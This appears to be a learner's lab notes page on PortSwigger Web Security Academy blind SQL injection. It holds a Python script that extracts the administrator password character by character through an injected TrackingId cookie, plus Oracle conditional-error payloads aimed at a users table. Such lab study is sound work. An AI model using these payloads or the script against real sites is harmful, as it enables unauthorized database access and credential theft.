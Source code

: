 ```python

    for position in range(1, 21):
        for character in characters:
            cookies = {
                    'TrackingId': f"FcOph0enFWnxemAV' and (select substring(password,{position},1) from users where username='administrator')='{character}'-- -",
                    'session': "iLICSZkafysiGkOybMPe1y2QKWqEdrp2"
                    }

            p1.status(cookies["TrackingId"])
            
            r = requests.get("https://0af000cc04a4b54a8102e3be003000bd.web-security-academy.net/", cookies=cookies)
            
            if "Welcome back" in r.text:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    makeSQLI()

```

# Blind SQL injection with conditional errors

You based in the status code of the webpage.

Test with a quote, discover the columns, union select don't work, test with Oracle(from dual)

To concadenate strings in Oracle you can use:

```sql
'||(select 'a' from dual)||
```

The way to discover things is using when() clause.

```sql
' || (select case when(1=1) then to_char(1/0) else '' end from dual) || '
```

When the condition is true(1=1) do to_char(1/0) causing an error(500 status code).
When the condition is false(2=1) go to else and don't do anything(200 status code).

Now we want to obtain information.

```sql
' || (select case when(1=1) then to_char(1/0) else '' end from users where username='administrator') || '
```

When the query is valid return the row(data) and do to_char(1/0).
When the user is not valid the query don't execute because doesn't have data.
